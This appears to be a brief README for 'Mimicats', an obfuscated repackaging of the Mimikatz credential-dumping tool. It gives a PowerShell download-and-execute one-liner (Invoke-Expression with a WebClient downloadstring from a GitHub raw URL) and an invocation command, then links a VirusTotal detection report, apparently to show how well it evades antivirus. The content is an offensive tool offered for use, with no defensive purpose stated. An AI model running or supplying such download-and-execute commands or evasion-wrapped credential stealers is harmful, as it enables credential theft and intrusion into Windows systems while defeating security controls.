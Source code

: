 # Mimicats
Mimikatz obfuscation

Command Windows Powershell:
```
Invoke-Expression (New-Object Net.Webclient).downloadstring('https://raw.githubusercontent.com/Moon1705/mimicats/master/Mimicats.ps1')
Invoke-Cats -Command '"command"'
```
Report [VirusTotal](https://www.virustotal.com/gui/file/65505a6fa6b1e9921d2270821370c9b6156dce36c1a6f1f72dd7aec3e6c5cb46/detection)
